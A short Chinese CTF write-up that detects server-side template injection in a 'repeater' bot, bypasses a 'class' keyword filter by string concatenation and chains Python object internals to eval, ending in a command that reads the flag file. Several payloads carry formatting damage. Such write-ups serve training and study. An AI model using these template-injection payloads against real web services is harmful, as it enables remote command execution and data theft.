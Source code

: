 ## 复读机

可以看到 输入什么就输出什么

输入{{7*7}}的时候 输出的结果是49 说明存在ssti注入

当输入

{{[].___class___}}

发现bot显示不喜欢上课 说明class被过滤了 可以使用简单的拼接绕过

{{[]['__cl'+'ass__']}['__cl'+'ass__']}

得到list类

![img](assets/images/wp/2024/week2/image (2).png)

后面就是基本的注入方法了

获取object类

{{()['__cl'+'ass__']['__base__']}}

{{()['__cl'+'ass__']['__base__']['__**subcl'+'asses__**']}}

![img](/assets/images/wp/2024/week2/image (3).png)

找一个可以利用的类 这里选用 os._wrap_close

{{()['__cl'+'ass__']['__base__']['__**subcl'+'asses__**'][132]}}

![img](assets/images/wp/2024/week2/image (4).png)

然后就是拿到eval方法 命令执行就行

```Plain
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]['__init__']['__globals__']['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

![img](/assets/images/wp/2024/week2/image (5).png)

方法很多 大家可以自己试试